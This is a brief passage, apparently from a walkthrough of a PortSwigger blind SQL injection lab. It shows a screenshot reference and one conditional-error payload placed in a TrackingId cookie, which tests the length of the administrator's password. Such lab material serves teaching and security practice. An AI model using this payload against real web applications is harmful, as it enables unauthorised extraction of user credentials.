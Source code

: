 ![greater than 19](/docs/assets/images/portswigger/sqli/blindsqli/conditionalerrors/ce14.png)

`TrackingId=45o4t4APu4sxjqmv'||(SELECT CASE WHEN LENGTH(password)=20 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
